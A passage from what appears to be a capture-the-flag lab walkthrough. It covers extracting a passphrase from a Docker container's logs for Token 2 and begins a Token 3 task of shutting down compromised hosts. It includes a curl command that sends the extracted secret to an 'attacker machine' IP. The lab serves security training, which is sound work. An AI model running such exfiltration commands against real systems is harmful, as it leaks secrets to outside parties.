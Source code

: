 To get the passphrase inside the tunnel, we can look at the logs generated by this container, revealing the message:

```bash
docker logs sir-tintee | tail
```

![Container logs revealing passphrase](./images/image23.png "Container logs revealing passphrase")

For simplicity, we can use this text to send to the attacker machine like we did for the previous token:

```bash
curl --data-raw "$(docker logs sir-tintee | tail | awk '/Server!/{print $5; exit}')" http://123.45.67.100
```

![Passphrase sent to attacker](./images/image24.png "Passphrase sent to attacker")

You can then navigate in a web browser to the grading page like before and receive Token 2:

![Grading challenge for Token 2](./images/image25.png "Grading challenge for Token 2")

## Token 3

*Identify and turn off any compromised machines.*

*CAREFUL* This task requires you to find and turn off the compromised host. Turning off other hosts or containers may break part 3. Be sure to not turn off any containers or hosts unnecessarily.

From token 2, we now know that addresses ending in `.5` are real machines and addresses ending in `.10`, `.20`, and `.30` are containers running on the `.5` machine in the respective subnet. 
